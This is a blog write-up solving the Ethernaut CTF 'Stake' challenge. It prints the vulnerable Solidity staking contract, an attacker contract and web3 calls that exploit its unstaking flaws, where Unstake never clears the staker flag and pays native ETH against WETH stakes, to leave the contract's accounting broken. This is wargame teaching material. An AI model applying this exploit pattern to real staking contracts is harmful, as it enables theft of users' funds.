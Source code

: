 ```yaml
---
layout: post
title: "Ethernaut CTF WriteUp Stake 31 "
date: 2024-06-2 13:07:12
categories: blog
---
```


Ethernaut latest Challenge

<!--more-->

## 31 Stake
Chall description: 

Stake is safe for staking native ETH and ERC20 WETH, considering the same 1:1 value of the tokens. Can you drain the contract?

To complete this level, the contract state must meet the following conditions:

- The Stake contract's ETH balance has to be greater than 0.
- totalStaked must be greater than the Stake contract's ETH balance.
- You must be a staker.
- Your staked balance must be 0.


Stake Contract : 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract Stake {

    uint256 public totalStaked;
    mapping(address => uint256) public UserStake;
    mapping(address => bool) public Stakers;
    address public WETH;

    constructor(address _weth) payable{
        totalStaked += msg.value;
        WETH = _weth;
    }

    function StakeETH() public payable {
        require(msg.value > 0.001 ether, "Don't be cheap");
        totalStaked += msg.value;
        UserStake[msg.sender] += msg.value;
        Stakers[msg.sender] = true;
    }
    function StakeWETH(uint256 amount) public returns (bool){
        require(amount >  0.001 ether, "Don't be cheap");
        (,bytes memory allowance) = WETH.call(abi.encodeWithSelector(0xdd62ed3e, msg.sender,address(this)));
        require(bytesToUint(allowance) >= amount,"How am I moving the funds honey?");
        totalStaked += amount;
        UserStake[msg.sender] += amount;
        (bool transfered, ) = WETH.call(abi.encodeWithSelector(0x23b872dd, msg.sender,address(this),amount));
        Stakers[msg.sender] = true;
        return transfered;
    }

    function Unstake(uint256 amount) public returns (bool){
        require(UserStake[msg.sender] >= amount,"Don't be greedy");
        UserStake[msg.sender] -= amount;
        totalStaked -= amount;
        (bool success, ) = payable(msg.sender).call{value : amount}("");
        return success;
    }
    function bytesToUint(bytes memory data) internal pure returns (uint256) {
        require(data.length >= 32, "Data length must be at least 32 bytes");
        uint256 result;
        assembly {
            result := mload(add(data, 0x20))
        }
        return result;
    }
}
```

To Solve this challenge we need to meet the 4 conditions above.

At first glance of the Contract in Unstake function missing the `Stakers[msg.sender] = false`, So we can stake and unstake our ETH and still remains as a Staker.
This satisfies the 3,4 conditions but what about the first 2 ?

- For that, Initially UserB stakes `0.001 ether` using `StakeETH()` function.

Contract state :  
```
totalStaked = 0.001 ether
UserStake[userB] = 0.001 ether;
```
- Again UserB stakes `0.001 ether` using `StakeWETH()` function. To do this userB should create a WETH token instance with msg.value 0.001 ether(which calls depoist function in WETH token contract).

Contract state :  
```
totalStaked = 0.002 ether
UserStake[userB] = 0.002 ether;
```
- The Unstake function only sending ETH from contract not the WETH 
`(bool success, ) = payable(msg.sender).call{value : amount}("");` 
- Now call the Unstake function with ether less than 0.001 ether (assume it as X). Which leaves some ether on the contract balance. 

Contract state :
```
totalStaked = 0.001 ether + (0.001 - X) 
UserStake[userB] = 0.001 ether + (0.001 - X) 
Contracts Balace = 0.001 - X ( which is greater than 0) 

```
userB contract : 
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./IWETH.sol";
import "./Stake.sol";

contract userB {
    IWETH public weth;
    

    constructor(address _weth) payable  {
        weth = IWETH(_weth);
    }

    function stakeUserB() public payable {
        Stake stake = Stake(//stake instance);
        uint256 amount = 10000000000000000 wei;
        stake.StakeETH{value: amount}();
        weth.approve(address(stake), amount);
        stake.StakeWETH(amount);
        stake.Unstake(amount - 10);
    }

    receive() external payable {
        (bool success) = payable(//player address).send(address(this).balance - 1);
        require(success);
    }

}
```

- From the player account call StakeETH() and UnStakeETH() with 0.001 ether.

```js
await web3.eth.sendTransaction({
  from: player,
  to: contract.address,
  data: web3.eth.abi.encodeFunctionSignature('StakeETH()'),
  value: 10000000000000000
});

await contract.Unstake(10000000000000000);
```

Contract State After this : 
```
totalStaked = 0.001 ether + (0.001 - X) 
UserStake[userB] = 0.001 ether + (0.001 - X) 
Contracts Balace = 0.001 - X ( which is greater than 0)
Staker[player] = true
UserStake[player] = 0
```

All 4 conditions are satisfied .
```
Congratulations, you have cracked the Stake machine!

```

